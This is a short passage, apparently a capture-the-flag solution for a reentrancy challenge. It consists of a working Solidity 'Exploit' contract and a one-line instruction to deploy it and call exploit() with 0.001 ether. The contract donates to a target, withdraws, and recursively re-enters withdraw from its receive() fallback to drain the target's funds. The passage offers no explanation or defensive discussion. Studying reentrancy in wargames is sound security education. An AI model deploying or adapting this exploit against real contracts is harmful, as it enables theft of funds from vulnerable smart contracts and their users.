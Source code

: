 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.8;

interface Reentrance {
    function donate(address) external payable;
    function withdraw(uint) external payable;
}

contract Exploit {

    function exploit(address _who) public payable {
        Reentrance(_who).donate{value:msg.value}(address(this));
        Reentrance(_who).withdraw(msg.value);
    }

    receive() external payable {
        if (msg.value <= msg.sender.balance){
            Reentrance(msg.sender).withdraw(msg.value);
        }
    }
}
```
call exploit(), sending 0.001 ether
